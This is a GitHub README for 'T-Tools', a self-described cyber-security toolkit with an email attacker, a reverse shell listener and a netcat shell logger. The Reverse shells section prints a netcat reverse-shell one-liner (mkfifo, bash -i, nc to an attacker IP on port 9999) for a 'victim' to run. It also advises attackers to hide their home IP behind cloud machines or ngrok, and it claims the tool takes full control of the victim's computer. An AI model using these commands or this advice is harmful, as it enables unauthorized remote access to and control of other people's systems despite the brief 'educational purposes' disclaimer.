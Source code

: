 # T-Tools-advanced--cyber-security 


# What is T-Tools

* T-Tools is an advanced cyber-security tools set.


# What does it includes

What does it include for cyber-security

An email attacker
A web scrapper
An advanced  reverse shell listener
An advanced netcat shell logger

What does it include for normal work

It includes 

A random password generator
simple phone number locator

# Installation

 this works for almost every operating system
 
 In your terminal type these commands
 
    $ sudo install git
    $ git clone https://github.com/Hirukshacoder/T-Tools-advanced--cyber-security/
    $ cd T-Tools-advanced--cyber-security
    $ pip install -r requirements.txt
    $ python3 main.py
           
# Reverse shells 
 
To use the listener change the ip in net.py and run it to start listening

Makesure you add your ip to the victim's command.

* Guidlines 

* Always use a cloud linux machine or another os in the cloud, because when the victim type the command he can grab your home network ip.

* And this tool is only for educational purposes.

* This tool can take the full control of the computer.

* Another thing is that you can start listening on any port.
 
* Also you have to add your ip to the net.py as well as the victim's command in version 1.0. 

* And you can use linode, aws or google cloud services to make your cloud machine.

* You can even use ngrok tcp to use reverse - X

# Vol 1.0 

      kali@attacker - $ nano reverse.py
      kali@attacker - $ < add your ip to the listen >
      kali@attacker - $ python3 reverse.py
      kali@victim - $ mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc <attacker ip> 9999 >/tmp/f  
    
    
 # Vol 1.1
 
      kali@attacker - $ python3 reverse.py
      kali@victim - $ mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 0.0.0.0 ip> 9999 >/tmp/f
           
           
           
           
           
      
 
           
                      
Made with 💖 by THb 
